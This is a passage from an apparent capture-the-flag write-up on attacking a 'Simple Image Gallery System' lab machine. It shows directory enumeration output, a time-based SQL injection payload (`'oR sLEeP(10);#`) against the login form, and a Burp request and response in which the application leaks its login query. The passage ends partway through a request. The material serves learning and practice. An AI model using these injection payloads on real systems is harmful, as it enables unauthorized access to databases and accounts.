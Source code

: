   ```
  inc                     [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 44ms]
  plugins                 [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 46ms]
  albums                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 44ms]
  schedules               [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 46ms]
  ```
  
- When you visit port 8080 you will be redirected to the admin login page.

---

## 🌐 Web Exploitation 

- When I searched for `Simple Image Gallery System`, I found 2 exploits. First I tried SQL Injection, you can check the PoC [here](https://m3n0sd0n4ld.github.io/patoHackventuras/simple-image-gallery-system-10-sql).

- When I tried `'oR sLEeP(10);#` there was a delay. I confirmed it with Burp as well.

  ```
  Request:

  POST /gallery/classes/Login.php?f=login HTTP/1.1
  Host: 10.10.192.6
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  X-Requested-With: XMLHttpRequest
  Content-Length: 29
  Origin: http://10.10.192.6
  Connection: keep-alive
  Referer: http://10.10.192.6/gallery/login.php
  Cookie: PHPSESSID=1tag32c78uqqivgktnlj39n92c
  Priority: u=0
  
  username=pampu&password=bimbo
  
  Response: 
  
  HTTP/1.1 200 OK
  Date: Thu, 29 May 2025 18:34:26 GMT
  Server: Apache/2.4.29 (Ubuntu)
  Expires: Thu, 19 Nov 1981 08:52:00 GMT
  Cache-Control: no-store, no-cache, must-revalidate
  Pragma: no-cache
  Vary: Accept-Encoding
  Content-Length: 109
  Keep-Alive: timeout=5, max=100
  Connection: Keep-Alive
  Content-Type: text/html; charset=UTF-8
  
  {"status":"incorrect","last_qry":"SELECT * from users where username = 'pampu' and password = md5('bimbo') "}
  
  447 bytes | 1.054 ms
  
  CONFIRMING TIME BASED SQLI:
  
  Request:
  
  POST /gallery/classes/Login.php?f=login HTTP/1.1
  Host: 10.10.192.6
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: */*
  ```
